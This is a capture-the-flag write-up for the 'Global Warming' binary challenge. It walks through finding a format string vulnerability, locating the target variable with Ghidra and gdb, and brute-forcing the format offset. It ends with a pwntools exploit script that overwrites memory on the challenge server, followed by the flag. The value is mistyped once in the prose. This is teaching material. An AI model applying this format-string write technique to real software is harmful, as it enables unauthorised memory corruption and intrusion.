


# Global Warming

## Global Warming

### Protections

Let's first run `checksec` to see what protections the file has:

```text
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Here we don't see many protection, there's only `NX`, which means no shellcode, and `ASLR` is likely enabled serverside

### Running the file

Running the file we see that we are first prompted for input, and then when we enter some, we are given an error message, and then terminates:

```text
$ ./global-warming
aaaa
aaaa
You cannot login as admin.
```

However it's important to note that our input is printed back to us, let's check for a format string exploit:

```text
$ ./global-warming
%x
f7f2d2c0
You cannot login as admin.
```

And it's fortunately vulnerable to format strings

### Reversing

Let's load this into ghidra to get some pseudo-c code



Here we see it take input with fgets, where it makes a secure copy to the buffer \(reads 1024 into a 1024 big buffer\), so no buffer overflow here. It then calls `login` with this input, and another value that's unknown. Let's check in gdb what this is:

```text
   0x804928a <main+139>:        push   eax
   0x804928b <main+140>:        lea    eax,[ebx-0x1fd0]
   0x8049291 <main+146>:        push   eax
=> 0x8049292 <main+147>:        call   0x80491a6 <login>
   0x8049297 <main+152>:        add    esp,0x10
   0x804929a <main+155>:        mov    eax,0x0
   0x804929f <main+160>:        lea    esp,[ebp-0x8]
   0x80492a2 <main+163>:        pop    ecx
Guessed arguments:
arg[0]: 0x804a030 ("User")
arg[1]: 0xffffce90 ("aaaa\n")
```

Seems like a `user` variable that we might need to change. Let's decompile `login`:



So it prints our input back to us without a format specifier, hence the format string exploit. Then it compares a variable to the value `0xb4dbabe3`, if equal, we get the flag

We can just assume that the previous value is that variable, but let's just check that with gdb:

```text
=> 0x80491c6 <login+32>:        mov    eax,DWORD PTR [ebx+0x2c]    <== moves the value into eax
   0x80491cc <login+38>:        cmp    eax,0xb4dbabe3              <== compares with the value
   0x80491d1 <login+43>:        jne    0x80491e7 <login+65>        <== jumps past the flag if they aren't equal
```

Here's the `if` statement if assembly. At this instruction:

```text
EBX: 0x804c000 --> 0x804bf00 --> 0x1
```

So the variable is stored at `0x804c02c`, not at `0x804a030`

### Exploit

To complete this challenge we need to use the format string exploit to _write_ the value `0xb4dbabe3` at that memory address \(with the use of `%n`\), so we can pass the check, and get the flag. Fortunately, pwntools has a feature to automate this for us:

`fmtstr_payload(offset, {address : value}`

Since we are writing at the address `0x804c02c`, `address` would be that, and `value` is `0xb4babe3`

We need to find the offset though, which is basically the format string offset where it shows us our input. For example, if I did:

```text
AAAA %6$x
```

And it returned:

```text
AAAA 41414141
```

`6` would be our offset

To find this, I used the below program to brute force it:

```python
from pwn import *

e = ELF("./global-warming")

for i in range(20):
    io = e.process(level="error")
    io.sendline("AAAA %%%d$lx"% i )
    print("%d - %s" % (i, io.recvline().strip()))
    io.close()
```

Running it:

```text
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
0 - b'AAAA %0$lx'
1 - b'AAAA f7f5f2c0'
2 - b'AAAA fbad2087'
3 - b'AAAA 80491b2'
4 - b'AAAA f7f20000'
5 - b'AAAA 804c000'
6 - b'AAAA ffd235b8'
7 - b'AAAA 8049297'
8 - b'AAAA 804a030'
9 - b'AAAA fff1e550'
10 - b'AAAA f7eff580'
11 - b'AAAA 8049219'
12 - b'AAAA 41414141'   <== this one
13 - b'AAAA 33312520'
14 - b'AAAA a786c24'
15 - b'AAAA fff92800'
16 - b'AAAA 3'
17 - b'AAAA 0'
18 - b'AAAA f7fc9000'
19 - b'AAAA f7d04748'
```

We find our offset is `12`. This makes our payload look like this:

```text
fmtstr_payload(12 , {0x804c02c : 0xb4dbabe3})
```

### Script

Our final exploit script now looks like this:

```python
from pwn import *

p = remote("chall.csivit.com", 30023)

value = 0xb4dbabe3

payload = fmtstr_payload(12 , {0x804c02c : value})

p.sendline(payload)

print(p.clean())
```

**csictf{n0**_**5tr1ng5**_**@tt@ch3d}**

